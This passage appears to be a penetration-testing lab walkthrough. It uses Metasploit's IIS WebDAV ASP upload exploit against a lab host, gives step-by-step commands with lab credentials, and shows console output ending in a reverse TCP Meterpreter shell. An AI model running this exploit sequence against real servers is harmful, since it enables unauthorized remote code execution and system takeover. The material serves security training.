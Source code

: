 #### Phase 1: Module Selection and Configuration

**Step 1: Metasploit Console Initialization**
```bash
msfconsole -q
```

**Step 2: Module Selection**
```bash
use exploit/windows/iis/iis_webdav_upload_asp
```

**Expected Lab Output:**
```
msf6 > use exploit/windows/iis/iis_webdav_upload_asp
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_upload_asp) >
```

#### Phase 2: Target Configuration

**Step 3: Target and Authentication Setup**
```bash
set RHOSTS demo.ine.local
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/metasploit%RAND%.asp
```

**Expected Lab Output:**
```
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpPassword password_123321
HttpPassword => password_123321
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set PATH /webdav/metasploit%RAND%.asp
PATH => /webdav/metasploit%RAND%.asp
```

#### Phase 3: Exploitation Execution

**Step 4: Launch the Exploit**
```bash
exploit
```

**Lab Execution Output:**
```
msf6 exploit(windows/iis/iis_webdav_upload_asp) > exploit

[*] Started reverse TCP handler on 10.10.31.2:4444
[*] Checking /webdav/metasploit159423466.asp
[*] Uploading 609542 bytes to /webdav/metasploit159423466.txt...
[*] Moving /webdav/metasploit159423466.txt to /webdav/metasploit159423466.asp...
[*] Executing /webdav/metasploit159423466.asp...
[*] Deleting /webdav/metasploit159423466.asp (this doesn't always work)...
[*] Sending stage (176198 bytes) to 10.0.28.105
[*] Meterpreter session 1 opened (10.10.31.2:4444 -> 10.0.28.105:49740) at 2024-07-10 12:20:21 +0530

meterpreter >
```
